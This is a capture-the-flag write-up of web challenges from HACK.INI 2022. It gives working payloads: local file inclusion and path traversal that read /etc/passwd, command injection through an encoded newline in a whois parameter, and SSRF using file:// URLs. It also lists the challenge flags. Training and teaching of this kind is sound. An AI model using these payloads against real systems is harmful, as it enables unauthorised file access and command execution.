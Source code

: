 # HACK.INI 10th edition 2022

## author : Aghiles Gharbi

## teamName : AnonyBlasBlas

## junior : 2nd place

## senior : 5th place

## individual : 5th

## team members:

> Aghiles Gharbi

> Zamoum Amar

> Negazzi Med amine

> Taleb Zineb

> Saradouni Safia

## Web

### baby lfi

> Author : Anis Chebah

> level: so easy

> link : https://baby-lfi.challs.shellmates.club/

    The website has a simple basic lfi (local file inclusion) in the 'language' GET parameter where it just passes the language parameter to include function in php without cheking.

    so the solutuin was just giving the file to read in the language parameter.
> exploit : 'https://baby-lfi.challs.shellmates.club/?language=/etc/passwd'

> flag: shellmates{10CA1_F11e_1Nc1US10n_m4y_r3ve4l_in7Er3st1nG_iNf0Rm4t1on}

### lfi

> Author : Anis Chebah

> level: so easy

> link : 'https://lfi.challs.shellmates.club'

    The website has a simple basic lfi (local file inclusion) in the 'language' GET parameter but in this time they added a filter for (relative paths by removing the '../') where in my case i used the same payload to get the flag because our payload dosn't contain '../'

> exploit : 'https://lfi.challs.shellmates.club/?language=/etc/passwd'

> flag: shellmates{SH0uLD_H4Ve_MadE_th3_checK_recuRS1V3}

### baby lfi 2

> Author : Anis Chebah

> level: so easy

> link : 'https://baby-lfi-2.challs.shellmates.club/'

    The website has a simple lfi (local file inclusion) in the 'language' GET parameter where it passes the language parameter to include function after checking if it contains "./languages/" (my best guess), but this one it was a bit tricky because i "language=languages/" should work without the './'.

    So the solutuin was just giving the file to read in the language parameter.
> exploit : 'https://baby-lfi-2.challs.shellmates.club/?language=./languages/../../../../../../../etc/passwd'

> flag: shellmates{yOU_M4De_yOUr_waY_7hRough_iT}

### HEADache

> Author : Muhammad

> level: so easy

> link : 'https://headache.challs.shellmates.club/'

> file : app.py

    The challenge is simple flask web app, as we can see in the app.py it check for the http header "wanna-something" if it contains "can-i-have-a-flag-please" it just gives us the flag we can add the header from browser inspector or burp suite.

> exploit : add "Wanna-something: can-i-have-a-flag-please" in the http request

> flag : shellmates{hTTp_H34d37R5_&_p0L173N355_c4n_B3_U53FULL}

### Whois 

> Author : souad

> level : medium

> link : 'https://whois.challs.shellmates.club'

    The challenge is a whois online service, where we select a whois host and write a domain name to query, we can see that there is a file named query.php which handles the requests by taking the two GET parameters host and query, if we remove the parameters we get its php source code. Which executes the whois command by the given parametes.

```php
$output = shell_exec("/usr/bin/whois -h ${host} ${query}");
```

    In the code we can see two regex patterns:

```php
$host_regex = "/^[0-9a-zA-Z][0-9a-zA-Z\.-]+$/";
$query_regex = "/^[0-9a-zA-Z\. ]+$/";
```

    if we read a little bit about the [PRCE modifiers (pattern modifiers)](https://www.php.net/manual/en/reference.pcre.pattern.modifiers.php) we can see that in php by default the regex matches only the first line, so we can add a line break in the parameter which will execute mutiple commands separated with '\n' which is coded as %0a in the url.

> exploit : 'http:/whois.challs.shellmates.club/query.php?host=xxx%0a&query=cat+flag.txt'

> flag: shellmates{i_$h0U1D_HaVE_R3AD_7HE_dOc_W3Ll}

### Whois fixed

    A web-based Whois service
    Note : There was a problem with the first version, this is the fixed version.
> Author : souad

> level : medium

> link : 'https://whois-fixed.challs.shellmates.club'

    In this challenge they just renamed the flag we can notice that by executing 'ls' the flag was just renamed to 'thisistheflagwithrandomstuffthatyouwontguessJUSTCATME' we can just cat it

> exploit : 'https:/whois-fixed.challs.shellmates.club/query.php?host=xxx%0A&query=cat+thisistheflagwithrandomstuffthatyouwontguessJUSTCATME'

> flag : shellmates{i_$h0U1D_HaVE_R3AD_7HE_dOc_W3Ll_9837432986534065}

### nextGen 1

    simple monitoring app.

    Note : Flag is in the /flag.txt file of the web server

> Author : souad

> level : easy

> link : 'https://nextgen-1.challs.shellmates.club'

    The challenge was simple monitoring app, we notice that when we click on a departement on the menu a POST request is sent to /request with the parameter service which contains a link (local webserver), hmmm i smell an SSRF (server side request forgery), after somme attempts we can see that there is no filters for file:// so the exploit is just to get the file with file:///flag.txt

> exploit : POST /request with parameters service=file:///flag.txt

> flag : shellmates{1T_W4S_4_qu1T3_3s4y_expl01tabL3_$$Rf}

### nextGen 2 

    We added some filters now.

```python
@app.route("/request", methods=['POST'])
def serve():
    url = request.form['service']
    html = ''
    if search(r'(localhost|127.0.0.1|0.0.0.0)', url) :
        html = render_template("error-404.html")
    else :
        if search(r'[a-z]+://[a-z0-9.-]+/', url):
            with urlopen(url) as response:
                html = response.read()        
            
    return html
```

    Note : Flag is in the /flag.txt file of the web server

> Author : souad
> link : 'https://nextgen-2.challs.shellmates.club'

    the exploit is the same as nextGen 1, they just added some filters

> exploit : POST /request with parameters service=file://hr.dep.nextgen.org/flag.txt

> flag : shellmates{1T_W4S_4_qu1T3_3s4y_expl01tabL3_$$Rf}